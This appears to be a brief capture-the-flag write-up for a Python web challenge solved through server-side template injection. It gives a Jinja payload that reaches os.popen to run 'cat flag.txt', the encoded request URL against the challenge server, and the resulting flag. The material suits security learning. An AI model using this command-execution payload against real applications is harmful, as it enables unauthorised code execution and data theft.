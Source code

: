 ## Solve:

- [ ] Reference to SSTI (Server Side Template Injection)
  - The language used to program the application is `python`
  - A good resource is [PaylodAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)
  ```python
  {{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}
  ```
  
  - Final paylload is as follows: <br/>
  http://206.189.59.199:8005/?c={{request.application.__globals__.__builtins__.__import__(%27os%27).popen(%27cat%20/flag.txt%27).read()}}

<br/>

## Flag:
`flag{Server_Side_Template_Injection_is_4_cool_kids_only}`
